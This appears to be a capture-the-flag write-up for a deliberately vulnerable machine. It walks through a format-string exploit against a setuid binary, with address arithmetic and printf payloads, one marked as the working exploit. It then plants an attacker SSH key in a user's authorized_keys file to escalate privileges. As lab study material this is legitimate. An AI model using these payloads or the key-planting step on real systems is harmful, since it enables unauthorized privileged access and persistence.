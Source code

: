 
## Enter the Seg Faults

To calculate the location of our shellcode in decimal two websites were used.

http://www.csgnetwork.com/hexaddsubcalc.html
https://www.rapidtables.com/convert/number/hex-to-decimal.html


    0xbffffe95 # orginal address of shellcode

first half=49151
second half=65173-12bytes = 65161


![negative calculated decimal](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554134903223_image.png)
![added ’1” to hex value](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554134948057_image.png)


second half first

    /usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CCCC%65161x%134\$hn

first half second - **extra 1 added to** `**0xbfff**` **now** `**0x1bfff**`

    /usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CCCC%65161x%134\$hn%49514x%135\$hn


WORKING EXPLOIT

    /usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CCCC%65161x%134\$0hn%49514x%135\$0hn

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986109665_image.png)


![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986412562_file.png)




# Priv-esc from Pinky

first and foremost move to create SSH key

Create ssh-keygen locally as done before:

    ssh-keygen -t rsa -b 2048

![User-uploaded image: image.png](https://paper-attachments.dropbox.com/s_7A09BEDD0EDA038254090457BE7CF3F0AA3EBA1021DECE0A8FA63DE4EF27D05D_1553983048094_image.png)


echo key to `.ssh/authorized_keys`

    echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5GexhwQxG5bgT+NteOrDkUKXctV/MBSG1svAzYzUS98YuR2Rc9fctKyuxF5v7nQTkSpJKYiasarF14MtEm3N2JOIUiJapBWh9yncuYkuC/dpv/guvxcQHcIHbr8me0L817T9ozJEUlrhvShzwcuG3o+ie4HWY4DdV+duFLahSgdURhS6mYKrfwUXnTFQc4HvAQ7gjkAgDmayWv7i5CEaaW/1DqKsefImT+JjhuDtprinXExxGqCim9Eyr1NB+c1goBFdevOwRe/taS3urHXy62/QFyrIaPDkR6shKVkpqY+qvfiqG5Q8LXiLoWXNs6u07XUNlrkz2AMi+xraJyN33 root@execatwill > /home/pinky/.ssh/authorized_keys

